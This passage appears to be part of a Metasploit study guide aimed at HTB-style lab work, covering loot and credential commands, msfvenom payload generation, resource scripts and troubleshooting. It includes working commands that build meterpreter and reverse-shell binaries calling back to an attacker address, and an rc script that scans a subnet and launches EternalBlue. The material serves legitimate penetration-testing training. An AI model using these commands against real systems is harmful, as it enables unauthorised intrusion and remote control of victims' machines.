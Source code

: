 ## 9. Loot, Creds, and Reporting
- Summary: Manage gathered files, passwords, and create artifacts.
- Observed commands: loot, creds, notes, services -o report.csv
- Concepts: Data hygiene, export formats
- Tips: Tag and export regularly; sanitize sensitive data
- Example:
```bash
loot
creds
notes -a "Found admin panel on 10.10.10.23"
services -o services.csv
```

## 10. Custom Payloads and Encoders
- Summary: Generate payloads, use encoders, and AV evasion basics.
- Observed commands: msfvenom -l payloads, -l encoders, -p, -f, -o, -e, -i
- Concepts: Staged vs stageless payloads, bad chars, templates
- Tips: Test payloads in lab; avoid over-encoding
- Example:
```bash
msfvenom -l payloads | grep meterpreter
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.14.5 LPORT=443 -f exe -o agent.exe
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf
```

## 11. Automation and Scripting
- Summary: Resource scripts and RPC for repeatability.
- Observed commands: makerc, msfconsole -r script.rc, load db
- Concepts: .rc files, automation of multi-step workflows
- Tips: Create engagement-specific .rc files
- Example script.rc:
```rc
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.10.10.0/24
set PORTS 1-1000
set THREADS 64
run
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.40
set LHOST 10.10.14.5
exploit -j
```

## 12. Safety, Ethics, and Troubleshooting
- Summary: Operate legally, minimize impact, and debug issues.
- Observed commands: set VERBOSE true, set Proxies, set SSL true, set RPORT, set HttpClientTimeout
- Concepts: Idempotence, safe checks, non-destructive enumeration
- Tips: Use check before exploit; snapshot VMs; throttle THREADS
- Example diagnostics:
```bash
setg VERBOSE true
setg HttpClientTimeout 20
setg Proxies http:127.0.0.1:8080
check
run
```

---

References
- Metasploit Unleashed (OffSec)
- Rapid7 Metasploit Docs
- HTB Academy: Using the Metasploit Framework
